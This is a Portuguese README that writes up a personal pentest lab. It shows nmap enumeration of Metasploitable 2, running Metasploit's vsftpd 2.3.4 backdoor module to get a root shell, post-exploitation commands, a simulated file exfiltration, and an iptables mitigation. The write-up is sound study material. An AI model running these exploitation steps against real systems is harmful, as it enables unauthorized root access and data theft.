# Lab de Pentest: Kali Linux + Metasploitable 2

Projeto pessoal de estudo prático em segurança ofensiva, desenvolvido em um **ambiente totalmente controlado, isolado e criado especificamente para fins educacionais**.

O laboratório foi montado para acompanhar, na prática, algumas etapas básicas de um teste de segurança: reconhecimento do alvo, enumeração de serviços, identificação de uma vulnerabilidade conhecida, exploração controlada e análise do impacto após o acesso.

> ⚠️ Todos os testes foram realizados exclusivamente em máquinas virtuais próprias, utilizando uma rede Host-Only sem exposição à internet ou a sistemas de terceiros.

---

## Objetivo

Montar um laboratório com duas máquinas virtuais:

- **Kali Linux:** utilizada como máquina de testes;
- **Metasploitable 2:** utilizada como alvo propositalmente vulnerável.

A proposta não era apenas executar um exploit, mas entender o caminho até ele: identificar os serviços disponíveis, analisar suas versões, pesquisar possíveis vulnerabilidades e observar o que poderia acontecer caso uma falha fosse explorada.

---

## Ambiente

- **Hipervisor:** VirtualBox
- **Máquina de testes:** Kali Linux
- **Máquina alvo:** Metasploitable 2
- **Ferramentas:** Nmap e Metasploit Framework
- **Serviço analisado:** FTP / vsftpd
- **Rede:** Host-Only (`192.168.56.0/24`)

A rede Host-Only foi utilizada para permitir comunicação entre as VMs mantendo o ambiente vulnerável isolado da internet e da rede local real.

| Máquina | Endereço IP |
|---|---|
| Metasploitable 2 | `192.168.56.101` |
| Kali Linux | `192.168.56.102` |

---

## 1. Configuração do laboratório

Inicialmente, configurei as duas máquinas virtuais no VirtualBox e coloquei ambas no mesmo adaptador de rede Host-Only.

Na Metasploitable, utilizei:

```bash
ifconfig
```

para identificar seu endereço IP dentro da rede de laboratório.



<br>



Com os endereços identificados e a comunicação entre as VMs funcionando, iniciei a etapa de reconhecimento.

---

## 2. Reconhecimento e enumeração

Utilizei o Nmap com detecção de versão:

```bash
nmap -sV 192.168.56.101
```

O objetivo não era apenas descobrir quais portas estavam abertas, mas também identificar **quais serviços e versões estavam sendo executados**.

O scan encontrou diversos serviços disponíveis na Metasploitable, entre eles:

```text
21/tcp - FTP - vsftpd 2.3.4
```

A identificação da versão foi importante porque permitiu sair de uma simples descoberta de porta aberta para uma investigação sobre possíveis vulnerabilidades conhecidas naquele serviço.



---

## 3. Por que escolhi o vsftpd 2.3.4?

A vulnerabilidade não foi escolhida antes do reconhecimento.

Primeiro realizei a enumeração do alvo e, após o Nmap identificar o **vsftpd 2.3.4**, decidi pesquisar especificamente aquela versão.

Esse serviço chamou minha atenção por possuir uma vulnerabilidade conhecida relacionada a um **backdoor presente em uma versão comprometida do vsftpd 2.3.4**.

O comportamento malicioso permitia que uma sequência específica enviada durante uma tentativa de autenticação ativasse um backdoor e possibilitasse acesso remoto ao sistema.

Por isso, escolhi esse serviço para continuar o laboratório: ele permitia praticar a relação entre:

**enumeração → identificação da versão → pesquisa da vulnerabilidade → exploração**

Em vez de simplesmente escolher um exploit pronto, a ideia foi chegar até ele a partir das informações encontradas durante o reconhecimento.

---

## 4. Pesquisa no Metasploit

Depois de identificar o serviço, iniciei o Metasploit Framework:

```bash
msfconsole
```




<br>

Pesquisei módulos relacionados ao vsftpd:

```bash
search vsftpd
```



<br>

E encontrei um módulo correspondente à versão identificada:

```bash
use exploit/unix/ftp/vsftpd_234_backdoor
```



<br>

<!-- Antes da execução, consultei suas opções:

```bash
show options
``` -->


Em seguida, configurei os endereços utilizados no laboratório:

```bash
set RHOSTS 192.168.56.101
set LHOST 192.168.56.102
```
---

## 5. Exploração controlada

Com o módulo configurado, executei:

```bash
run
```



<br>

A exploração foi realizada exclusivamente contra a máquina Metasploitable do laboratório.

Após obter uma sessão no alvo, utilizei um shell para verificar o nível de acesso:

```bash
shell
whoami
```

O resultado retornado foi:

```text
root
```

Esse resultado foi importante para entender o impacto da vulnerabilidade: uma falha presente em apenas um serviço foi suficiente para permitir acesso privilegiado ao sistema vulnerável.



<br>

---

## 6. Pós-exploração

Com a sessão ativa, realizei algumas verificações básicas para conhecer melhor o sistema acessado.

Entre os comandos utilizados:

```bash
sysinfo
getuid
ps
pwd
ls
```

Esses comandos permitiram visualizar informações como:

- sistema operacional;
- usuário associado à sessão;
- processos em execução;
- diretório atual;
- arquivos e diretórios disponíveis.

Também pratiquei o gerenciamento da sessão, colocando-a em background e retornando posteriormente quando necessário.





<br>

---

## 7. Testes com FTP

Como o serviço analisado era FTP, também quis compreender melhor seu funcionamento fora da exploração.

Criei um arquivo de teste no Kali:

```bash
echo "Olá, esse arquivo foi enviado do Kali!" > firstArch.txt
```

Depois, estabeleci uma conexão FTP com a Metasploitable e pratiquei operações básicas como:

```bash
put firstArch.txt
get firstArch.txt
```

Com isso, consegui observar na prática a diferença entre uma utilização normal e autenticada do FTP e o acesso obtido através de uma vulnerabilidade no serviço.





<br>

---

## 8. Simulação de exposição de dados

Para visualizar melhor o impacto de um acesso não autorizado, criei um arquivo fictício diretamente na máquina Metasploitable:

```bash
echo Dados confidenciais - nao deveria vazar! > superScret.txt
```



<br>

O arquivo existia apenas para a simulação do laboratório.

Depois de obter acesso através da vulnerabilidade, realizei a transferência desse arquivo para o Kali.

```bash
ls /home/msfadmin
```
```bash
download /home/msfadmin/superScret.txt
```

O objetivo dessa etapa foi demonstrar de forma simples como o comprometimento de um sistema também pode comprometer a **confidencialidade das informações armazenadas nele**.



<br>

---
<!-- 
## 9. Análise básica de arquivo

Durante os testes, também utilizei alguns comandos Linux para investigar um arquivo encontrado no sistema:

```bash
ls -la <arquivo>
file <arquivo>
stat <arquivo>
head -c 200 <arquivo>
```

Com isso, pratiquei a análise de:

- permissões;
- tamanho;
- tipo de arquivo;
- metadados;
- conteúdo inicial.

Essa etapa também ajudou a reforçar o uso de comandos Linux durante atividades de análise e pós-exploração.

--- -->

<!-- ## 10. Mitigações estudadas

Depois de observar o impacto da vulnerabilidade, pesquisei algumas medidas que poderiam reduzir ou evitar esse tipo de comprometimento:

- atualização ou substituição de versões vulneráveis;
- remoção de serviços que não são necessários;
- restrição de portas por firewall;
- segmentação de rede;
- princípio do menor privilégio;
- monitoramento de serviços expostos;
- realização periódica de scans de vulnerabilidade.

A própria configuração Host-Only utilizada no laboratório também reforçou, na prática, a importância da segmentação e do isolamento de ambientes vulneráveis.

--- -->


## 10. Mitigação Aplicada e testada

Após confirmar o impacto da vulnerabilidade, apliquei uma mitigação real no ambiente e validei o resultado.

**Antes da mitigação:**
```bash
nmap -p 6200 192.168.56.101
# 6200/tcp open
```
A porta do backdoor estava aberta e acessível, e o exploit conseguia abrir uma sessão Meterpreter normalmente.

**Mitigação aplicada** — bloqueio da porta do backdoor via firewall, sem afetar o serviço FTP legítimo:
```bash
sudo iptables -A INPUT -p tcp --dport 6200 -j DROP
```



<br>


**Depois da mitigação:**
```bash
nmap -p 6200 192.168.56.101
# 6200/tcp filtered
```




Validação em duas frentes:
- **Uso legítimo do FTP continuou funcionando:** envio de arquivo via `put` na porta 21 concluído com sucesso.
- **Exploração do backdoor passou a falhar:**
  ```
  [+] The target appears to be vulnerable. vsftpd 2.3.4 banner detected; backdoor may be present
  [-] Unable to connect to backdoor on 6200/TCP. Cooldown?
  [*] Exploit completed, but no session was created.
  ```
  O Metasploit ainda reconhece a versão vulnerável do serviço (a falha de código continua lá), mas não consegue mais completar a exploração, pois o acesso à porta usada pelo backdoor está bloqueado.




<br>
 
Esse teste demonstrou que é possível mitigar o vetor de exploração de forma cirúrgica — bloqueando a porta específica usada pelo backdoor — sem interromper o serviço legítimo que outros usuários dependem.


---

## Principais aprendizados

Com esse laboratório, consegui praticar e entender melhor:

- configuração de máquinas virtuais no VirtualBox;
- redes Host-Only;
- identificação de endereços IP em Linux;
- reconhecimento e enumeração com Nmap;
- diferença entre encontrar uma porta e identificar a versão do serviço;
- importância de pesquisar vulnerabilidades a partir das informações encontradas;
- fluxo básico do Metasploit: `search` → `use` → `show options` → `set` → `run`;
- conceitos de `RHOSTS` e `LHOST`;
- gerenciamento de sessões;
- reconhecimento básico após obtenção de acesso;
- funcionamento do protocolo FTP;
- transferência de arquivos;
- impacto de serviços vulneráveis sobre a segurança de um sistema;
- importância de atualização, segmentação e redução da superfície de ataque.

---

## Conclusão

O principal aprendizado deste laboratório foi entender que a exploração é apenas uma parte do processo.

O que mais agregou ao estudo foi acompanhar o caminho completo: primeiro descobrir o que estava disponível no alvo, identificar a versão de um serviço, pesquisar uma vulnerabilidade relacionada e somente depois realizar a exploração em ambiente controlado.

Isso ajudou a conectar conhecimentos que eu vinha estudando separadamente, como **redes, Nmap, Linux, FTP, vulnerabilidades e Metasploit**, dentro de um único laboratório prático.

---

## ⚠️ Aviso de uso

Este projeto foi desenvolvido **exclusivamente para estudo de Cybersecurity**.

Todos os testes foram realizados em:

- máquinas virtuais próprias;
- rede local isolada;
- ambiente controlado;
- Metasploitable 2, criada propositalmente para testes de segurança.

Nenhum sistema real, infraestrutura de terceiros ou dispositivo sem autorização foi utilizado.

Testes de segurança devem ser realizados somente em ambientes próprios ou mediante autorização explícita.